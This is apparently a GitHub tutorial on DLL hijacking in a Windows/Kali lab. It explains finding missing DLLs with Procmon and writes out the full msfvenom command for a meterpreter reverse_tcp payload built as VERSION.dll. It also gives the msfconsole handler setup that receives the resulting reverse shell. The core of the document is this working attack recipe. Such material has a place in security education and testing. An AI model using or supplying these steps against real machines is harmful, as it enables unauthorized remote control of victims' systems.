 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom

## Lab Setup
- Create two virtual machine:
  - **Windows OS** for executing exe application *(Victim Machine)*
  - **Kali Linux** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```

> **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application**

   As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

